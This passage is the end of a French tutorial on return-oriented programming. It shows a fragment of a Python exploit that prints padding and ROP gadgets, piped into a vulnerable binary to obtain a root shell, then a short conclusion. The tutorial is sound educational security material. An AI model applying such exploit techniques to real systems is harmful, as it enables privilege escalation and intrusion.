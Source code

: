                     print(b'A' * self.padding + b''.join(rop_gadget))

    if __name__ == "__main__":
            p = rop_exploit()
            p.rop_gadgets()

Donc si maintenant nous lançons le programme avec l'autre 'programme' binaire.

    root@0xEX75:~/rop# python exploit.py|./buf 
    AAAAAAAAAAAAAAAAAAAA

    # id
    uid=0(root) gid=0(root) groupes=0(root)

ET BINGO, nous avons réussis à pop le shell, alors que le binaire n'était pas prévu de base.

CONCLUSION
----
Voilà, nous arrivons enfin au bout de cet article qui, je l’espère, vous aura plus. J'ai essayer de vous expliquez le fonctionnement du système ROP et comment exploiter à l'aide de ROP, n'hésitez pas à me contacter sur les réseaux sociaux, je suis toujours disponible pour vous répondre.
